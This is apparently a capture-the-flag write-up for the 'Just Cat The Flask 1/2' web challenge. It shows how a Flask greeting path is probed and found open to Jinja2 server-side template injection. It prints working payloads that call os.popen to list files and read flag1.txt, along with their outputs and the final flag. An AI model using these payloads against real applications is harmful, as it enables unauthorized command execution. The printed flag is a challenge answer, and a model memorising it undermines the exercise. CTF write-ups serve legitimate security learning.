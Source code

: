 # Just Cat The Flask 1/2

## Description

> https://bluehens-cat-the-flask.chals.io/greeting/hackers

## Write-Up

When we first enter the web page, we receive the message:

```
Hi hackers!
```

First intuition is to modify the given path, for example we use `/hack`, we get:

```
Hi hack!
```

And with an error, like trying LFI with `../../../`, we get:

```
USAGE: /greeting/:name
```

But from the title of the website, we can suspect that it's about SSTI, let try it out:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{7*7}}
```

We get:

```
Hi 49 !
```

From there, we only need to find proper payload to read the flag:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{self.__init__.__globals__.__builtins__.__import__('os').popen('ls').read() }}
```

We get:

```
Hello flag1.txt main.py requirements.txt sum_suckers_creds xx !
```

So let's cat the flag:

```
https://bluehens-cat-the-flask.chals.io/greeting/{{self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag1.txt').read() }}
```

From there, we get :

```
Hi UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2} !
```

## Flag

UDCTF{l4y3r_1_c0mpl3t3_g00d_luck_w1th_p4rt_2}
